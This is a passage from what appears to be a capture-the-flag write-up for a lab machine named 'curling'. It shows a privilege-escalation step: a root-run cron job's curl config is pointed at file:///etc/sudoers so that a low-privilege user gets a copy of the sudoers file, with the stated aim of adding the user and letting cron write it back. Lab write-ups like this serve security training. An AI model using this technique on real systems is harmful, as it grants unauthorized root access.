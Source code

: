

Another option is to get the current `sudoers` file, add our user on it and let cron get it back and replace it.

```
floris@curling:~/admin-area$ cat input 
url = "file:///etc/sudoers"
output = /home/floris/admin-area/sudoers
```

```
floris@curling:~/admin-area$ ls -lha
total 32K
drwxr-x--- 2 root   floris 4.0K Oct 31 05:21 .
drwxr-xr-x 7 floris floris 4.0K Oct 31 03:46 ..
-rw-rw---- 1 root   floris   25 Oct 31 05:21 input
-rw-rw---- 1 root   floris  14K Oct 31 05:20 report
-rw-r--r-- 1 root   root    755 Oct 31 05:21 sudoers
```

```
floris@curling:~/admin-area$ cat sudoers 
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
```
